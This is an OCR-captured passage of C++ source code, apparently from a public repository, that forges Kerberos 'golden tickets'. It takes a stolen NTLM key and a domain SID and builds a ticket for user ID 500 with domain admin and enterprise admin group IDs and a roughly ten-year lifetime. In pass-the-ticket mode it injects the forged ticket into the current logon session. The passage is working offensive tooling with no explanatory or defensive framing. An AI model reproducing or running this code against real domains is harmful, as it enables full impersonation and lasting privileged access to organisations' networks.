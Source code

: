 ```c++
    }
    // Convert user-supplied Long-term Key (NTLM) to Hex.
    if (StringToHex(lpKey, Key, pCSystem->KeySize))
    {
        // Generate three times for fake tickets: starttime, endtime and renew-till.
        GetSystemTimeAsFileTime(&lifeTimeData.TicketStart);
        *(PULONGLONG)&lifeTimeData.TicketStart -= *(PULONGLONG)&lifeTimeData.TicketStart % 10000000;
        lifeTimeData.TicketRenew = lifeTimeData.TicketEnd = lifeTimeData.TicketStart;
        *(PULONGLONG)&lifeTimeData.TicketEnd += (ULONGLONG)10000000 * 60 * wcstoul(L"5256000", NULL, 0);
        *(PULONGLONG)&lifeTimeData.TicketRenew += (ULONGLONG)10000000 * 60 * wcstoul(L"5256000", NULL, 0);
        wprintf(L"   User            : %s\n   Domain          : %s (%s)\n", lpUser, lpDomain, netbiosDomain);
    }
    // Convert user-supplied SID to PSID type.
    status = ConvertStringSidToSidW(lpSid, (PSID*)&pSid);
    if (!status)
    {
        wprintf(L"[-] ConvertStringSidToSidW Error [%u].\n", GetLastError());
        return status;
    }

    // Print some basic information.
    wprintf(L"   SID             : %s\n   User Id         : %u\n   Groups Id       : *513 512 520 518 519\n", lpSid, 500);
    wprintf(L"   ServiceKey      : ");  PrintfHex(Key, pCSystem->KeySize);  wprintf(L" - %s\n", TicketEtype(dwKeyType));
    if(lpService) wprintf(L"   Service         : %s\n", lpService);
    if(lpTarget) wprintf(L"   Target          : %s\n", lpTarget);
    wprintf(L"   Start Time      : ");
    DisplayLocalFileTime(&lifeTimeData.TicketStart); wprintf(L"\n");
    wprintf(L"   End Time        : ");
    DisplayLocalFileTime(&lifeTimeData.TicketEnd); wprintf(L"\n");
    wprintf(L"   Renew Until     : ");
    DisplayLocalFileTime(&lifeTimeData.TicketRenew); wprintf(L"\n");
    wprintf(L"   -> Ticket       : %s\n\n", isPtt ? L"** Pass The Ticket **" : L"ticket.kirbi");

    // Enter the KerberosGenerateGoldenData function to start forging tickets.
    BerAppKrbCred = KerberosGenerateGoldenData(lpUser, lpDomain, lpService, lpTarget, &lifeTimeData, Key, pCSystem->KeySize, dwKeyType, pSid, netbiosDomain);
    if (BerAppKrbCred == NULL)
    {
        wprintf(L"[-] Failed to generate kerberos golden data.\n");
        return NULL;
    }

    if (isPtt)
    {
        // Pass the ticket through the KerberosPTT function to submit the 
        // forged ticket into memory.
        status = KerberosPTT(BerAppKrbCred->bv_val, BerAppKrbCred->bv_len);
        if (!status)
        {
            wprintf(L"[-] Failed to pass the kerberos ticket.\n");
            return status;
        }
        wprintf(L"   * Golden ticket for '%s @ %s' successfully submitted for current session.\n", lpUser, lpDomain);
    }
    return status;
}
```